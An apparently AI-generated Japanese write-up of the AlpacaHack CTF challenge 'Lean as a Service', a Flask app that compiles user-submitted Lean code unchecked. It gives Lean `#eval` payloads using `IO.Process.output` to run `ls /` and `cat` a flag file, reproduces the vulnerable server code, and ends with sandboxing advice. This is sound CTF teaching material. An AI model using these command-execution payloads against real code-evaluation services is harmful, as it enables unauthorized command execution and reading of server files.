


> [!IMPORTANT]
> **Solved with Gemini in Colab**
>
> この問題は Google の AI コーディングアシスタント **Gemini in Colab** を活用して解決されました。

> [!NOTE]
> この Writeup は AI により自動生成されています。 本ドキュメントは、AI アシスタントを用いて作成された Writeup です。記載内容は解法の一例であり、内容の正確性については十分にご確認の上ご利用ください。

# Lean as a Service

## 概要
*   **カテゴリー**: Misc
*   **トピック**: Lean
*   **難易度**: Medium 4.5
*   **問題リンク**: [Lean as a Service - Daily AlpacaHack](https://alpacahack.com/daily/challenges/lean-as-a-service)

## 使用ツール
*   **Python 3**: 解法スクリプトの実装
*   **requests**: サービスへの POST 送信（`pip install requests`）
*   **re / html**: サーバーの応答 HTML から結果部分を抽出し、HTML エスケープを解除（いずれも Python 標準ライブラリ）

## 問題の分析
本問題は、**Daily AlpacaHack** の Misc 問題です。問題文は次の通りです。

> I made a web service where you can easily play with the trendy Lean. It only verifies proofs, so you can't do anything bad to the server, right?

（日本語版：流行りの Lean を簡単に遊べる Web サービスを作りました。証明を検証するだけだから、サーバーに悪さなんてできないよね？）

配布ファイルは次の通りです。

| ファイル | 内容 |
| :--- | :--- |
| `app.py` | Lean の検証サービス本体（Flask） |
| `Dockerfile` | Lean 4 (v4.35.0) と Python を用意するコンテナ定義 |
| `compose.yaml` | コンテナを起動する設定（ポート 3000 を公開） |
| `flag.txt` | ローカル確認用のダミーフラグ |

なお、Dockerfile では公式リリースの `lean-4.35.0-linux.tar.zst` を取得し、`/opt/lean` に配置しています。

`app.py` の核となる部分は次の通りです（画面表示用の HTML テンプレート部分は省略。完全版は補足にあります）。

```python
import subprocess, tempfile
from pathlib import Path
from flask import Flask, request


app = Flask(__name__)

MAX_SOURCE_SIZE = 4_000
TIMEOUT_SECONDS = 10


def check(source: str) -> tuple[int, str]:
    with tempfile.TemporaryDirectory() as workdir:
        Path(workdir, "Main.lean").write_text(source, encoding="utf-8")

        try:
            proc = subprocess.run(
                ["lean", "Main.lean"],
                cwd=workdir,
                capture_output=True,
                text=True,
                timeout=TIMEOUT_SECONDS,
            )
        except subprocess.TimeoutExpired:
            return 124, "[TIMEOUT]\n"

    return proc.returncode, proc.stdout + proc.stderr


@app.route("/", methods=["GET", "POST"])
def index() -> str:
    # ...（表示まわりは省略）...
    if request.method == "POST":
        source = request.form.get("source", "")
        if len(source.encode()) > MAX_SOURCE_SIZE:
            status = "too large"
            result = "source must be at most 4000 bytes"
        else:
            code, result = check(source)
            status = "accepted" if code == 0 else f"rejected ({code})"
    # ...
```

ポイントは 3 つです。

1. 送ったソースは **そのまま** `Main.lean` に書かれ、`lean Main.lean` で処理される
2. ソースに対する **フィルタや禁止ワードのチェックが一切ない**（サイズ上限 4,000 バイトとタイムアウト 10 秒だけ）
3. `lean` の **標準出力と標準エラーがそのまま画面に返ってくる**



## 脆弱性の詳細

### 1. 「検証」のはずが、任意の Lean コードが実行されている
サーバーがしているのは、利用者が送ったソースをコンパイラに **丸ごと渡す** ことです。「証明として正しいか」の判定は `lean` の終了コード（0 なら accepted）だけで、ソースの内容には何の制限もかかっていません。つまり、証明と関係のないコードを送っても、サーバーはそれをそのまま処理します。

### 2. Lean 4 は普通のプログラムも書ける言語
Lean は定理証明支援系ですが、同時に汎用の関数型プログラミング言語でもあります。コマンド `#eval` は式をその場で評価して結果を表示するもので、**IO アクション（入出力や外部コマンド実行などの副作用のある処理）も評価できます**。とくに `IO.Process.output` は外部コマンドを実行して、その標準出力を文字列として返す関数です。

```lean
#eval do
  let out ← IO.Process.output { cmd := "ls", args := #["/"] }
  IO.println out.stdout
```

これを送ると、サーバー上で `ls /` が実行され、その出力が `lean` の標準出力を経由して画面に返ってきます。定理を 1 つも証明していないのに、終了コードは 0 で accepted になります。

### 3. フラグのファイル名は `ls` で特定する
問題の Beginner Hint によれば、フラグは `/flag-<md5hash>.txt` に置かれています。`<md5hash>` の部分は問題文からは分からないため、いきなり `cat` はできません。そこで、まず手順 2 の方法で `ls /` を実行してファイル名を確定させてから、そのファイルを `cat` で読むという **2 段構え** にします。

## 攻撃フロー



手順は solve.py の処理そのままです。

**手順 1**: `ls /` でフラグのファイル名を特定する

```lean
#eval do
  let out ← IO.Process.output { cmd := "ls", args := #["/"] }
  IO.println out.stdout
```

**手順 2**: 特定したファイルを `cat` で読む（ファイル名はインスタンスごとに異なります）

```lean
#eval do
  let out ← IO.Process.output { cmd := "cat", args := #["/flag-<md5hash>.txt"] }
  IO.println out.stdout
```

## 補足
*   `lean Main.lean` はファイルの **型検査・評価まで** を行うコマンドで、`main` 関数をエントリーポイントとして実行することはしません。そのため、プログラムとして走らせたい処理は、評価のタイミングで実行される `#eval` に書く必要があります。
*   `#eval` の評価結果や `IO.println` の出力は標準出力・標準エラーに現れます。サーバーはその両方を連結して返す作りなので、どちらに出ても手元で読めます。
*   サイズ上限 4,000 バイトとタイムアウト 10 秒という制限はありますが、ファイル一覧の取得やファイルの読み取りといった短い処理なら、この範囲に収めるのは難しくありません。

<details>
<summary>app.py の完全版（HTML テンプレート部分を含む）</summary>

配布された `app.py` の全文です。核となる処理は「問題の分析」で抜粋した部分と同一で、残りは画面表示用の HTML / CSS です。

```python
import html, subprocess, tempfile
from pathlib import Path
from flask import Flask, request


app = Flask(__name__)

MAX_SOURCE_SIZE = 4_000
TIMEOUT_SECONDS = 10
DEFAULT_SOURCE = """theorem hello : True := by
  trivial
"""


def check(source: str) -> tuple[int, str]:
    with tempfile.TemporaryDirectory() as workdir:
        Path(workdir, "Main.lean").write_text(source, encoding="utf-8")

        try:
            proc = subprocess.run(
                ["lean", "Main.lean"],
                cwd=workdir,
                capture_output=True,
                text=True,
                timeout=TIMEOUT_SECONDS,
            )
        except subprocess.TimeoutExpired:
            return 124, "[TIMEOUT]\n"

    return proc.returncode, proc.stdout + proc.stderr


@app.route("/", methods=["GET", "POST"])
def index() -> str:
    source = DEFAULT_SOURCE
    result = ""
    status = "ready"

    if request.method == "POST":
        source = request.form.get("source", "")
        if len(source.encode()) > MAX_SOURCE_SIZE:
            status = "too large"
            result = f"source must be at most {MAX_SOURCE_SIZE} bytes"
        else:
            code, result = check(source)
            status = "accepted" if code == 0 else f"rejected ({code})"

    return f"""<!doctype html>
<title>Check My Proof</title>
...（画面表示用の HTML / CSS。元のファイルではこの部分にページ全体のマークアップが入る）...
</main>
"""


app.run(host="0.0.0.0", port=3000)
```

</details>

> [!WARNING]
> 「入力は証明の検証に使うだけだから安全」という思い込みこそが、この問題の本質です。コンパイラやインタプリタに利用者のコードをそのまま渡す行為は、それ自体が任意コード実行にほかなりません。こうしたサービスを安全に作るには、コードを評価する環境のサンドボックス化、実行ユーザーの権限分離、ファイルシステムへのアクセス制限などが不可欠です。

## 用語解説
*   **Lean / Lean 4**: 対話型の定理証明支援系であり、関数型プログラミング言語でもあります。数学の証明を機械に検証させる用途で知られますが、Lean 4 では通常のプログラム開発にも使えるよう機能が強化されています。
*   **定理証明支援系（theorem prover）**: 定理やプログラムの性質を、機械が検証できる厳密な形で証明するための道具です。
*   **`#eval`**: Lean のコマンドの 1 つで、式をその場で評価して結果を表示します。IO アクションを渡すと、ファイルの処理（評価）のタイミングでその処理が実行されます。
*   **IO アクション**: 表示、ファイル読み書き、外部コマンド実行など、副作用のある処理を表す値のことです。`IO.println` が表示、`IO.Process.output` が外部コマンドの実行と出力の取得を担います。
*   **RCE（Remote Code Execution）**: サーバー上で、攻撃者が意図した任意のコードやコマンドを実行できてしまう状態・脆弱性の総称です。本問では「証明の検証」という正規の入力経路そのものが RCE になっています。

## 解決スクリプト
[solve.py を参照してください](./solve.py)

```bash
pip install requests
python3 solve.py <URL>
```

`<URL>` は、問題ページで「Spawn Challenge Server」を押して起動したインスタンスの URL です。スクリプトは `ls /` でフラグのファイル名を特定してから、その中身を表示します。
